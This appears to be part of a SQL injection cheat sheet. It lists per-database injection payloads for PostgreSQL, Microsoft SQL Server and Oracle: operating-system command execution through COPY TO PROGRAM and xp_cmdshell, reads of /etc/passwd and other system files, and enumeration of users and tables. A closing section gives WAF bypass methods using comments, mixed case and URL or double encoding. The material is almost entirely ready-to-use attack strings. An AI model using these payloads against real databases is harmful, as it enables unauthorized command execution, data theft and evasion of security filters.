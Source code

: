 ### PostgreSQL

```sql
-- Version detection
' AND version() LIKE 'PostgreSQL%'--

-- Command execution (if superuser)
'; COPY (SELECT '') TO PROGRAM 'id'--

-- Reading files
' UNION SELECT 1,pg_read_file('/etc/passwd'),3--
```

### Microsoft SQL Server

```sql
-- Version detection
' AND @@version LIKE 'Microsoft%'--

-- Command execution
'; EXEC xp_cmdshell 'whoami'--

-- Reading files
' UNION SELECT 1,BulkColumn,3 FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_BLOB) AS t--
```

### Oracle

```sql
-- Version detection
' AND banner LIKE 'Oracle%' FROM v$version WHERE rownum=1--

-- Current user
' UNION SELECT 1,user,3 FROM dual--

-- All tables
' UNION SELECT 1,table_name,3 FROM all_tables--
```

## Advanced Evasion Techniques

### WAF Bypass Methods

```sql
-- Comment variations
/*comment*/ /*!50000comment*/ #comment --comment

-- Case manipulation
UnIoN SeLeCt

-- URL encoding
%55%4e%49%4f%4e %53%45%4c%45%43%54

-- Double encoding
%2555%254e%2549%254f%254e

-- Alternative keywords
SELECT -> EXEC, EXECUTE
UNION -> UNION ALL, UNION DISTINCT
```
